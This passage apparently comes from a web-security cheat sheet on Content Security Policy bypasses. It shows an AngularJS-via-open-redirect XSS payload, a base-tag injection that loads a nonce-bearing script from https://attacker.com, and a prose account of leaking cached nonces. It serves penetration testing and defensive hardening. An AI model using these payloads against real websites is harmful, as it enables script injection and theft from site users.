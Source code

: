 The following script would be allowed by the [CSP spec](https://www.w3.org/TR/CSP3/#source-list-paths-and-redirects), note that the `angular.js` path is not normally allowed, but it is through the redirect because its origin is allowed. This can be abused with some HTML that executes arbitrary JavaScript, even if `'unsafe-eval'` is not set:

<pre class="language-html" data-overflow="wrap"><code class="lang-html"><strong>&#x3C;script src="/redirect?url=https%3A%2F%2Fcdnjs.cloudflare.com%2Fajax%2Flibs%2Fangular.js%2F1.8.3%2Fangular.min.js">&#x3C;/script>
</strong>&#x3C;div ng-app>&#x3C;img src=x ng-on-error="$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.defaultView.origin)">&#x3C;/div>
</code></pre>

### Nonce without `base-src`

If a CSP filters scripts based on a **nonce**, and does not specify a `base-src` directive, you may be able to hijack relative URLs after your injection point.

{% code overflow="wrap" %}
```http
Content-Security-Policy: script-src 'nonce-abc'
```
{% endcode %}

Let's say the target page with an HTML-injection looks as follows:

<pre class="language-html"><code class="lang-html">&#x3C;body>
  INJECT_HERE
<strong>  &#x3C;script nonce="abc" src="/script.js">
</strong>&#x3C;/body>
</code></pre>

The relative `<script>` tag can be redirect to another domain using the `<base>` tag as follows:

<pre class="language-html"><code class="lang-html">&#x3C;body>
<strong>  &#x3C;base href="https://attacker.com">
</strong>  &#x3C;script nonce="abc" src="/script.js">
&#x3C;/body>
</code></pre>

Now, the script with a valid nonce is loaded from `https://attacker.com/script.js` instead of the target website!

### Nonce with Caching

When facing a cryptographically random `nonce` for every request, there's still a chance for the **cache** to remember your nonce and to share it with an attacker. While this theoretically leaks the nonce, changing your payload to include it may be tricky, because if it's stored on the cached page with the nonce directly you cannot change it without also altering the nonce.

Therefore, your injection point must be a dynamically fetched payload on some static page. Then the attacker retrieves the nonce by cache decepting the victim, and updates their payload to include it. The moment onyone now visits the link and it's still cached, the fetched payload will correctly matched the nonce and execute.

{% embed url="https://serverfault.com/questions/1059740/how-to-create-a-csp-nonce-and-yet-continue-website-caching/1064775#1064775" %}
Explanation of what happens when a CSP nonce is cached
{% endembed %}
